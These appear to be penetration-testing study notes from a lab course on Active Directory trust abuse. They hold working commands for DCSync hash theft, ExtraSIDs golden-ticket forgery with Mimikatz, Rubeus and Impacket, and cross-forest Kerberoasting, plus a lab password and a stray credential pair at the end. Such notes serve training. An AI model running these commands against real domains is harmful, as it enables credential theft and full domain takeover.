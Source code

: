 
- When a company acquires another, they inherit their security posture, good or bad.

> A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication. An organization can create various types of trusts:

## Different types of trusts:
1. **Parent-child**: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain `corp.inlanefreight.local` could authenticate into the parent domain `inlanefreight.local`, and vice-versa.
2. **Cross-link**: A trust between child domains to speed up authentication 
![[Pasted image 20250630224647.png]]
3. **Tree-root**: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.

#### Transitive Trusts:
Trust is extended to objects that the child domain trusts.
```
if `Domain A` has a trust with `Domain B`, and `Domain B` has a `transitive` trust with `Domain C`, then `Domain A` will automatically trust `Domain C`.
```

#### Non-Transitive Trusts:
```
The child domain itself is the only one that is trusted. Nothing the child domain trusts additionally is trusted.
```

#### One-Way Trusts:
```
Users in a `trusted` domain can access resources in a trusting domain, not vice-versa.
```

#### Bidirectional Trust:
```
A <-> B
```


> ==If someone wanted to target your organization, they could also look at the other company you acquired for a potentially softer target to attack, allowing them to get into your organization indirectly.==

"I have performed many penetration tests where this was the case: I was unable to find a foothold in the principal domain, but was able to find a flaw in a trusted domain which, in turn, gave me a foothold, or even full admin rights in the principal domain."

# Attacking Domain Trusts Child -> Parent - From Windows:
|Term|Summary|
|---|---|
|**SID History**|Attribute storing old SIDs to maintain access across migrations|
|**SID Injection**|Attacker adds privileged SID to a user’s SID history to escalate|
|**Golden Ticket**|Forged Kerberos TGT using KRBTGT hash — grants long-term domain access|
|**ExtraSIDs Attack**|Used to escalate from a child to parent domain in the same forest|
|**KRBTGT Hash**|Key to creating valid Golden Tickets; should be rotated after compromise|
|**DCSync Attack**|Lets attacker pull password hashes (including KRBTGT) from a Domain Controller|
## ExtraSids Attack - Mimikatz

```Powershell
# How the ExtraSid attack plays out

# 1. On the domain that you control, get the KRBTGT hash with Mimikatz

mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

# Get the Child SID:
Get-DomainSID

# Get the SID from the parent domain:
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Now you have what you need:
1. KRBTGT hash for the child domain
2. SID of the Child domain
3. SID of the Admin group you want to take advantage of in the parent domain
4. The name of the target user in the child domain (does not need to be a real user!)
5. The FQDN of the child domain


# Now we can run the command to get access to the DC on the parent domain:

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

```

## ExtraSids Attack - Rubeus

```PowerShell
# Using the above information

.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

```


# Attacking Domain Trusts Child -> Parent - From Linux:
- We still need the same information as Windows, we just need to get it in another way.

They are:
1. The KRBTGT hash for the child domain
2. The SID for the child domain
3. The name of a target user in the child domain (does not need to exist!)
4. The FQDN of the child domain
5. The SID of the Enterprise Admins group of the root domain

```shell
# Once you have full control of the child domain (In this case access to the htb-student_adm account, you can conduct a DCSync attack, requesting the krbtgt accounts hash)

# password is HTB_@cademy_stdnt_admin!

secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

# Now we need to get the SID of the child domain with lookupsid.py

lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240

# Now get the SID of the parent domain and the group we want our malicious account to be added to:

lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"


```
#### Now we have what we need:
- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

### Now construct a golden ticket using ticketer.py
```shell

ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# Now set KRB5CCNAME environment variable:

export KRB5CCNAME=hacker.ccache 

```

#### Now we can check if we can authenticate to the PARENT domain's DC using impacket's version of PSexec:
```shell

psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

```

#### raiseChild.py will automate this process!
***raiseChild.py:***
- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

```shell
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```


# Cross-Forest Trust Abuse - Windows
- You may not have admin credentials on the domain you're currently in, but you can obtain a hash for an administrative user in another domain. 

```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
# Enumerate accounts in a target domain that have SPNs associated with them

Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity <user> | select samaccountname,memberof
# See what groups the user is a part of

.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
# Request the users' hash (specify the domain)

Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
# Enumerate groups with users that do not belong to the domain

```


# Cross-Forest Trust Abuse - Linux

```shell
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -request -outputfile wley_ticket.txt
# Cross-forest request for the wley users TGS ticket

```

sapsso:pabloPICASSO
